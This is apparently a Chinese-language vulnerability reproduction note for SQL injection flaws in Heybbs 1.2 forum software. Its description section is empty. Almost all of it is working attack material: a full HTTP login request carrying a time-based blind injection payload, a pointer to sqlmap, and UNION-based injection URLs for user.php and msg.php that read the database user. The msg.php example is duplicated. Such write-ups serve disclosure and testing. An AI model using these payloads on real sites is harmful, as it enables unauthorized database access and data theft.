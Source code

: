 Heybbs 1.2 sql注入漏洞
======================

一、漏洞简介
------------

二、漏洞影响
------------

Heybb 1.2

三、复现过程
------------

**第一处注入存在于login.php文件的username参数处**

    POST /php/login.php HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 98
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://www.0-sec.org
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://www.0-sec.org/login.php
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: PHPSESSID=qmpkek4l3ojr30gtodf6nj4hp4
    Connection: close

    username=123123' and (select 1 from (select(sleep(5)))accn) AND '1'='1&password=123123&verify=h4ir

> 将username标\*放入sqlmap -r

**第二处注入存在于user.php文件id参数处**

Eg:

`http://www.0-sec.org/user.php?id=177 and 1=2 union select 1) ,user(),3,4,5,6,7,8,9,10`

**第三处注入存在于msg.php文件id参数处**

Eg:

`http://www.0-sec.org/msg.php?id=1 and 1=2 union select 1) ,2,3,user(),5,6,7,8,9,10,11,12`

Eg:

`http://www.0-sec.org/msg.php?id=1 and 1=2 union select 1) ,2,3,user(),5,6,7,8,9,10,11,12`
